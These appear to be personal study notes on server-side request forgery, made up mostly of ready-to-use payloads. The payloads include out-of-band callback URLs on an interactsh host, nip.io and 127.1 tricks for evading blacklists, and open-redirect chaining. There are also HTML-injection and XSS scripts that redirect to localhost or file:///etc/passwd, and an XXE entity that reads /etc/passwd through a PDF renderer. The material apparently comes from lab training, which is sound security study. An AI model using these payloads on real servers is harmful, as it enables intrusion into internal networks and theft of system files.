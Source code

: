 ___

![[Pasted image 20241214123720.png]]

https://app.interactsh.com/#/

## Screenshot Context and PDF Context

```
http://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun
```

```
http://127.0.0.1
```

```
file:///etc/passwd
```

## Blacklisted Resources

```
http://127.1
```

https://nip.io/

`<anything>[.-]<IP Address>.nip.io` in **"dot"**, **"dash"** or **"hexadecimal"** notation to the corresponding `<IP Address>`:

- dot notation: `magic.127.0.0.1.nip.io`
- dash notation: `magic-127-0-0-1.nip.io`
- hexadecimal notation: `magic-7f000001.nip.io`

## Whitelisting and Bypasses

```
http://hackinghub.io.127.0.0.1.nip.io
```

## Chaining Open Redirects

```
https://charcoal.ctfio.com/?redirect=http://localhost:8080
```

## In an Image Context

Scan internal ports, 
Time based
```
http://127.0.0.1:8080/favicon.ico
```

## Chaining HTML Injection

```
<img/src="https://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun">
```

```
<iframe/src="http://localhost:8080">
```

## Chaining XSS

```
<script>document.write(document.location)</script> 
```

```
<script>window.location = "http://localhost"; </script>
```

```
<script>window.location = "file:///etc/passwd"; </script>
```

instead of calling it directly,

```
<iframe/src=https://mywebsite.com/locationwhere.html>
```

## Chaining XML External Entity (XXE)

```
<img/src="https://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun">
```

Get the user-agent --> # Prince v10
```xml
<?xml version="1.0"?>
<!DOCTYPE cdl [<!ENTITY asd SYSTEM "file:///etc/passwd">]>
<cdl>&asd;</cdl>
```

```
<iframe/src=https://mywebsite.com/prince-poc.xml>
```
